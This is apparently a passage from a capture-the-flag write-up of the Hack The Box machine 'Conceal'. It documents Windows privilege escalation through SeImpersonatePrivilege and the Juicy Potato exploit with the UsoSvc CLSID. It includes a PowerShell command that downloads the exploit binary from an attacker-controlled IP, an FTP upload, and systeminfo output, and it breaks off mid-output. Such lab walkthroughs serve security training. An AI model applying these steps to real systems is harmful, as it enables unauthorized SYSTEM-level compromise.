 PS C:\Windows\SysWOW64\inetsrv>whoami
conceal\destitute

````


## Escalation

````
whoami /priv
SeImpresonatePrivilege => Hot potato, or Juicy Potato
````
https://github.com/ohpe/juicy-potato/releases


https://ohpe.it/juicy-potato/CLSID/

I smell potato cooking! There were different types of potato uncovered in my reseach and oh boy, in the end the “juicy” one seems the most promising because of the various command switches available. More importantly, I can change to a different COM server other than BITS.

For some reason I couldn’t recall, I decided to go for UsoSvc’s CLSID, which can be found here(https://ci.appveyor.com/project/ohpe/juicy-potato/build/artifacts)
Earlier on, I’d already established that Conceal is a Windows 10 Enterprise.

The CLSID of UsoSvc is {B91D5831-B1BD-4608-8198-D72E155020F7}. We are now set to run the exploit.

Upload via powershell
````
> invoke-webrequest -uri http://10.10.14.15:81/juicypotato.exe -outfile jp.exe
````

Upload the exploit jp.exe to C:\inetpub\wwwroot\upload via FTP.
````
> bin
> put jp.exe
````


````
>systeminfo

Host Name:                 CONCEAL
OS Name:                   Microsoft Windows 10 Enterprise
OS Version:                10.0.15063 N/A Build 15063
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:
Product ID:                00329-00000-00003-AA343
Original Install Date:     12/10/2018, 20:04:27
System Boot Time:          13/05/2019, 06:42:20
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: Intel64 Family 6 Model 63 Stepping 2 GenuineIntel ~2300 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 05/04/2016
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-gb;English (United Kingdom)
Input Locale:              en-gb;English (United Kingdom)
Time Zone:                 (UTC+00:00) Dublin, Edinburgh, Lisbon, London
Total Physical Memory:     2,047 MB